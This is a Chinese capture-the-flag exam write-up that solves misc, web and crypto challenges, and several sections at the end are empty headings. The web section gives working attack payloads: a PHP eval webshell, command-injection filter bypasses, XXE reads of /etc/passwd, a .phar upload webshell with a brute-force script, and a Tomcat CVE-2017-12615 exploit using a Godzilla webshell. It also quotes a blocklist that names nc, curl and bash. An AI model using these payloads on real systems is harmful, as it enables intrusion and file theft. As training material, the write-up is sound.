☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☱☷☲☱☳☳☴☵☲☲☶☲☰☴☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☵☲☵☴☳☴☴☲☷☰☲☳☲☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☵☷☲☱☴☳☴☵☲☷☴☲☷☲☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰')
```

解出：
```
公正公正公正友善公正公正民主公正法治法治诚信民主公正平等公正平等公正和谐和谐爱国公正自由公正民主和谐爱国和谐法治文明诚信和谐公正平等公正平等和谐和谐
和谐文明文明诚信和谐和谐民主和谐民主公正平等公正自由文明诚信和谐和谐爱国公正公正和谐爱国公正和谐文明友善法治和谐敬业和谐富强和谐法治和谐爱国和谐自由
和谐民主公正平等和谐文明公正公正公正公正公正文明公正和谐法治诚信和谐
```
社会主义核心价值观解码：

flag{eec8da87-ee32-11ed-8f8c-907841e2ffbc}
### 5、Happy
foremost发现有一个压缩包，但是加密了，提示密码再图片中

StegSolve打开1.bmp

点击下面的箭头查看，发现再red 0左侧有东西，竖着排列，应该是隐写，所以点击Data Extract进入

由于是竖着排列，所以应该选Column，RGB都选0通道，查看发现有东西：

选单个通道再看看：

发现压缩包password：@91902AF23C#276C2FC7EAC615739CC7C0
打开文件，wireshark分析，追踪TCP流，发现flag

把文本粘到cybercheif使用正则处理，Regula rexpression

然后粘贴到excel处理，先筛选非空值

再转置粘贴，然后concat，得到flag

flag{a4e0a418-fced-4b2d-9d76-fdc9053d69a1}
### 6、Log
压缩包有密码，爆破

得到密码：895623，打开文件，发现post请求，追踪TCP流

URL编码看一下post的内容：

发现最后一行应该是传了三个参数‘o87a4f9242f2ae’，‘pc78aaad4354ce’，‘ze0db7b075d717’把值拿出来base解码，但是解不出

找到了使用了substr函数，substr($_POST["o87a4f9242f2ae"],2)，意思是传入的post的参数的值，从左侧删除2个字符
所以o87a4f9242f2ae实际传入的应该是Y21k
pc78aaad4354ce传入的应该是空
ze0db7b075d717传入的应该是Y2QgL2QgIkM6XFxwaHBzdHVkeV9wcm9cXFdXVyImd2hvYW1pJmVjaG8gMDMyZmVlYzNhJmNkJmVjaG8gYWRiNjhmNmVjMDg4

没有头绪，看了老师的witeup，pcap文件中有两个zip文件，1.zip和config.zip用以下方式导出


save到桌面，发现有加密，
在第三个post请求的index.php中

解出

解压密码：SecretsPassw0rds
打开config.zip文件，发现新佛曰

解密得到韩文

再解密，得到flag

flag{a48053e250b4f952836b5226ad4db6fc}

###  7、Rainbow
提示说

解压出图片，foremost一下，分离出两张图片

丢到010editor，没发现什么，再把原图片丢进去，发现两张图片的中间有信息


两张图片的中间

```
Wm14aFozdGhOV1EzWmpaaU1TMWlabVl5TFRObFpUUXRZakZqTVMwek1HTTBNREZpTVRreE5qVjk
```
解两次base64得到flag

flag{a5d7f6b1-bff2-3ee4-b1c1-30c401b19165}
## Web
### 1、周期表
之前的作业，考试慌了竟然没做出，给自己一个耳光

提示‘aGVhZGVy’解码

去网页的header中找

flag{28f9ae56-67ed-e17f-0bd8-1873bece7a54}

### 2、Ezphp
打开网页，看源码

访问http://39.165.214.6:50184/index.php?source=1  看到源码

写入一句话木马
```
http://39.165.214.6:50184/index.php?name[nnnn=1.php
```
POST:
```
file_c=<?=eval($_GET[a]);
```

http://39.165.214.6:50184/Upld0d/1.php？a=eval($_POST[1]);
蚁剑连接，根目录下得到flag


### 3、Rce meeee
打开网页能看到源码

```
<?php
highlight_file(__FILE__);
$cmd=$_GET['cmd'];
if(!preg_match('/sys|pass|exe|file|inc|cat|sed| |\$|\?|\*|more|ca\t|nl|#| |[\x0a]|php|perl|dir|rm|ls|sleep|cut|sh|bash|grep|ash|nc|ping|curl|cat|tac|od|more|less|nl|vi|unique|head|tail|sort|rev|string|find|\$|\(\|\)|\[|\]|\{|\}|\>|\<|\?|\*|;|\||&|\\\\/i',$cmd)){
    eval("echo '" . $cmd ."';");
}else{
    echo "hacker";
}
?>

<!-- /flaggggggggggg -->
```
payload1:
```
http://39.165.214.6:50812/?cmd='.`c'a't%09/flaggggggggggg`.'
```


paylaod2:
```
http://39.165.214.6:50812/?cmd='.`diff%09/flaggggggggggg%09/etc/group%09`.'
```
diff是查看两个文件的不同

得到flag:
 flag{6823e853-8466-4c0b-bcff-1b3de98bad90} 
### 4、Readfile
打开是个网页

burp代理打开，抓包


提示：

改为xxe传参，且有回显

修改参数为：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
                <!ENTITY content SYSTEM "file:///etc/passwd">
]>
<a><username>&content;</username><password>bbbbbbbbbbb</password></a>
```

可以查看信息了，按题目提示改一下payload：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
                <!ENTITY content SYSTEM "file:///flaggggggggggg">
]>
<a><username>&content;</username><password>bbbbbbbbbbb</password></a>
```

得到flag：
flag{80cd498d-b91e-7293-2a6d-5b883c6a578c}
### 5、Upload
题目提示，应该是文件上传漏洞：

访问https://zhuanlan.zhihu.com/p/588516424就会看到源码
```
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
	</head>
	<form enctype="multipart/form-data" method="post">
	    <p>请选择要上传的图片：<p>
	    <input class="input_file" type="file" name="upload_file"/>
	    <input class="button" type="submit" name="submit" value="上传"/>
	</form>
</html>


<?php
	//highlight_file(__FILE__);
	//$key = '51d0a99c-752e-11ed-b5a7-44af28a75237';
	if (isset($_POST['submit'])){
		$file_name = trim($_FILES['upload_file']['name']); //trim() 函数移除字符串两侧的空白字符或其他预定义字符
		$black = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
		$file_ext = strrchr($file_name, '.');//strrchr() 函数查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符。
		$file_ext = strtolower($file_ext);

		//echo $file_ext;

		if (!in_array($file_ext, $black)){
			$temp_file = $_FILES['upload_file']['tmp_name'];
			$img_path = 'upload'.'/'.date("His").rand(100,999).$file_ext;//date("His")中H代表小时，24 小时格式，有前导零，00 到 23。i代表有前导零的分钟数，00 到 59。s代表秒数，有前导零，00 到 59。rand(100,999)代表100-999之间的随机数。

			if (move_uploaded_file($temp_file, $img_path)) {
	                $is_upload = true;
	        } else {
	            $msg = '上传出错！';
	        }
		}else {
	        $msg = 'This file type cannot be uploaded';
	    }
	}

    if($msg != null){
        echo "提示：".$msg;
    }
	if($is_upload){
        echo 'ok';
    }
?>
```
发现phar没有过滤，根据代码判断上传的文件最终会被命名为
'upload'.'/'.date("His").rand(100,999).strrchr($file_name, '.')
upload/时间戳+100-999的随机数+.phar


网站部署在英国，网站的时间要在北京时间的基础上减去8个小时，也就是date("His")显示的是北京时间减去8个小时的时间戳。

开始上传a.phar一句话木马

上传完毕后使用burp对这个地址抓包
```
http://39.165.214.6:50045/upload/020000823.phar
```

然后爆破

爆破出文件名


使用hackbar连接没有回显，可能被禁止了，使用蚁剑连接，在根目录找到flag


flag{34bdc268-9466-662b-c099-31fc5621907f}

另外还写了一个python代码爆破：
```
import requests
import re

data = {'mima': 'system("cat /flag.txt");'}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36',
    'Cookie': 'JSESSIONID=62225FC2683E6FA9AFD18B20D69E024E'}
patt = r'flag{[a-z0-9A-z-]{10,60}}'
for r in range(100,999):
    for dt in range(0,59):
        url = 'http://39.165.214.6:50045/upload/0200'+ '%02d'%(dt) + str(r) + '.phar'
        print('%02d'%(dt) + str(r) )
    
        try:
            r = requests.get(url, headers=headers,timeout=0.5)
            if r.status_code == 200:
                # flag = re.findall(patt, r.text)
                print(url)
        except:
            pass
        break
```
能爆出来，但速度没有burp快，而且网站没有响应的内容，所以flag不能直接得到，也是爆出文件名后再蚁剑连接找flag
### 6、图书馆
题目提示nday漏洞：

进入页面

首先到题目提示的/examples下面看看

得知是个Tomcat的网站，想知道Tomcat的版本，随便访问下面不存的文件即可

得到了Tomcat的版本是8.5.19,百度查询期nday漏洞CVE-2017-12615
复现
先抓包，改传参方式未PUT，传一个1.txt，响应201说明成功。

那我们直接上传JSP木马可不可以呢

失败了，这里发现后缀为jsp的格式好像是上传不成功，那么我们可以尝试绕过，这里绕过的方式有很多，可以文件流绕过，可以空格绕过，可以"/"绕过，大家可以自己尝试，这里我用"/"绕过

这里返回201是成功的呢，说明我们的绕过成功了，然后这里我们要写相应的JSP木马在请求正文里，那么不会写的怎么办呢，这里可以像我一样用Godzilla一键生成，这里管理点开有个生成，并将有效载荷选择JavaDynamicPayload，点击生成


生成的文件，用记事本打开，把内容粘贴到burp


上传成功，用Godzilla连接

进入服务器，命令行执行，根目录下找到flag.txt

flag{ca6373a9-cc58-3803-a367-5cf163ce830e}

## Crypto
### 1、Mix
之前的作业题，考试心态不好，竟然傻了。。。
解压发现一张图片，和一个压缩包，压缩包有密码，在图片中找找，010editor打开，发现最后有信息

base64解码

是一串数字，84765385 ，应该是压缩包密码，成功解压。

发现一串密文，再去看看图片有没有什么隐藏信息，修改图片高度，发现“key123”，图片是一张兔子，是不是rabbit密码。


这个地方的key是“123”，不是“key123”，有点坑。得到flag
flag{idsggkskasilugjf}
### 2、Classical
打开txt，是密文
```
LJXHIMTENEYDATKDGAZWER3EGRMVI2DXMJWU46DCIRRTGYL2NRZE23JRNBREGMDZLJ4TC4CNJAYD2===
```
扔到cyberchef先Base32再base64

得到
```
f{vv-40-7lgxa8pncql77k9k2mal-2g-i0}
```
w栅栏解码

得到flag：flag{xlav8-pvn2c-qgl47-70ki9-k027m}

### 3、BabyLFSR

### 4、ezRSA

在所给task.py的源码中
hint = (p - 297498275426) * inverse(s, M) % M
得出p0的值p0 = 297498275426
利用gmpy2模块用模逆求得h1的值，得到
h1= 96361307638526160128275232841313826844825253068870980900934192188891510551420052345552431792479840438980000477458899377104553629313980434701061722776746604537972756291434818103501339060242294117305489313746479784401926856581436285111060916064426422616104984224389185617187382575258631277595163432669517076779164313529836341265351052669603987753134000273982701751258305714891009754111869632318339922612121337239009455303063744344834798308651538128933243085858944997945472610002759802142612514835718077873731968091710019124811531090599086059676394415056193222210488607339239570752828864267138070386119725611507153145264064061390481712176086722958938267217810289512805568430677928120025006715679793323534102684719000948071840711716648476639307642260959880060757482391207020902196173340664132826499971030443682705323615549253407885232533737927587133190099112645483759858542550066099656314147004339559010681909642127340010803924819122128891330286686873273289668833736208584661679470437076112164758330869531349356510586090151089546366597956881151997011986962460030937979416744244429250707330074647102546719487245812119325549500806109393926145505166836485460582131283456276288223155465522414627989969498582512812807635975649240934207329634168165165231132359387645858396415008828376353069515116729802664022095002695969419374362481090766414385459297200738185201674785282665665671978205341651386058872588580265151829725849613776783226935931727969686464702666484422309933642834256383703645425112833012951078243635322495925603732
a = [int(h1),1,0] 
b = [int(-h1*p0)-2**511,-2**511,1] 
c = [M,0,0] 
aa = [a,b,c] 
aa = matrix(aa) 
print(aa.LLL())


运行得到p的值与flag
p=11426098159976724615129622580835312249207837035640883882207032306633739510654413328963253517206425808623042239326899717411126775267302638284556461931522427
flag{388bb794-ccda-f02e-79c6-8e44659c2481}
5、n与p的关系
6、Syb
7、Victory V
8、你了解表吗
提示说前面缺了部分，对比后发现缺少jmD0，换位试找到flag

Reverse
1、Base
2、Rev
Pwn
1、aaa